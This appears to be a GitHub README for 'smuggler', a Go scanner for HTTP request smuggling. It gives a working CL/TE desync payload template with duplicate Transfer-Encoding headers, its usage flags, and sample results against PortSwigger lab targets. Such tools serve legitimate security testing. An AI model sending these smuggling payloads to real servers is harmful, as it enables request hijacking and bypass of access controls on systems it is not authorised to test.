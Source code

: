 # smuggler
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it simple to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.  
  
I took some ideas from this article https://www.synopsys.com/blogs/software-security/fuzzing-test-cases-not-all-random/ about the structure of the program. Separating the application into distinct sections being poet, courier, and oracle help make the code more reusable.



Example template:
```
Match: Unrecognized method GPOST
Request: |+
  POST {{.Path}} HTTP/1.1
  Host: {{.Host}}
  Content-Type: application/x-www-form-urlencoded
  Content-length: 4
  Transfer-Encoding: chunked
  Transfer-encoding: cow

  5c
  GPOST / HTTP/1.1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 15

  x=1
  0


```

Usage:
```
$ ./smuggler -h
Usage of ./smuggler:
  -header string
    	Custom header to add to requests, example: '-header "User-Agent: garlic0x1"'
  -proxy string
    	Set the environment proxy, for example: http://example.com:8080
  -threads int
    	Number of concurrent targets to test (default 5)
  -timeout int
    	Timeout (default 10)
  -tries int
    	Number of requests to send to test each template (default 5)
  -u string
    	Target URL
  -urls string
    	List of URLs
```

Example test on Portswigger labs:
```
$ ./smuggler -urls targets.test
https://ace51fd41fcbfab0c03e376f00890063.web-security-academy.net/ is vulnerable, payload: templates/template.txt
https://acbf1fa51ea928ebc0ae8934000800c3.web-security-academy.net/ is vulnerable, payload: templates/template2.txt
https://acbf1fa51ea928ebc0ae8934000800c3.web-security-academy.net/ is vulnerable, payload: templates/template3.txt

```
